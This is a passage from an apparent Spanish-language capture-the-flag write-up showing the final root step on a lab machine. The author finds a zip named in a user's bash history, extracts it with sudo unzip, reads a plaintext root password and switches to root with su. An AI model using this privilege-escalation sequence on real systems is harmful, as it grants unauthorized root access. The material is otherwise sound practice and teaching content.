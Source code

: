 Veremos que podemos ejecutar `unzip` como el usuario `root` por lo que podremos hacer lo siguiente.

Acordemonos de que en el `.bash_history` de la `/home` del usuario `steven` vimos este `.zip`.

```
secretitosecretazo.zip
```

Por lo que vamos a buscarlo.

```shell
find / -name "secretitosecretazo.zip" 2>/dev/null
```

Info:

```
/secretitosecretazo.zip
```

Vemos que esta en la propia raiz (`/`), por lo que vamos a descomprimirlo utilizando `sudo`.

```shell
sudo unzip /secretitosecretazo.zip
```

Info:

```
Archive:  /secretitosecretazo.zip
 extracting: sorpresitajiji.txt
```

Vemos que obtenemos el archivo llamado `sorpresitajiji.txt` y si lo leemos veremos lo siguiente:

```
root:pedazodepasswordchaval
```

Vamos a probar dicha credencial para el usuario `root`.

```shell
su root
```

Metemos como contraseña `pedazodepasswordchaval`...

```
root@a71e5c97925e:/home/baluadmin# whoami
root
```

Veremos que ha funcionado, por lo que seremos el usuario `root` y habremos terminado la maquina.
